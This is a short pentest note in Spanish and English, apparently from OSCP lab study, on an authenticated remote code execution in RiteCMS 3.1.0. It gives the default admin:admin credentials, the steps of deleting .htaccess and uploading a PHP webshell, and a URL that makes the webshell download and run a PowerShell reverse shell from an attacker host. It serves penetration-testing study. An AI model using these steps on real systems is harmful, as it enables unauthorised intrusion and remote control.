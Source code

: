 
## DESCRIPTION

RiteCMS version 3.1.0 and below suffers from a remote code execution in admin panel. An authenticated attacker can upload a php file and bypass the .htacess configuration that deny execution of .php files in media and files directory by default.

CREDENCIALES POR DEFECTO (admin.php): ADMIN ADMIN

#### Mas información
* https://www.exploit-db.com/exploits/50616


## EXPLOITATION

Existen muchas opciones disponible

### OPTION 1: Delete the .htaccess file in the media and files directory through the files manager module and then upload the php file - RCE achieved

1. Encontramos el CMS:
![[Pasted image 20230419210201.png]]

2.  Hacemos login en `URL/cms/admin.php` con las credenciales por defecto `admin:admin`

3. Creamos una webshell en php.

4. Eliminamos el fichero .htaccess del directorio files o media 

5. Subimos la webshell

![[Pasted image 20230419210330.png]]

![[Pasted image 20230419210342.png]]

**!!NOTA IMPORTANTE!!** 
* Cuidado por si ha cambiado el enlace por defecto
Pero si le damos al enlace, nos da un Not Found:
![[Pasted image 20230419210420.png]]

6. Buscamos la web con nuestra reverse shell y ejecutamos comandos:

![[Pasted image 20230419210532.png]]
7. Podemos utilizar Invoke-Powershell para construir una reverse shell.

```
 http://192.168.169.249:8000/cms/media/shell.php?cmd=cmd%20/c%20powershell%20-c%20IEX%20(New-Object%20Net.Webclient).downloadstring(%27http://192.168.119.169:8000/Invoke-PowerShellTcp.ps1%27)%22
```
## MACHINES

* Hack The Box: 
* OSCP LABs: Relia (192.168.169.249)

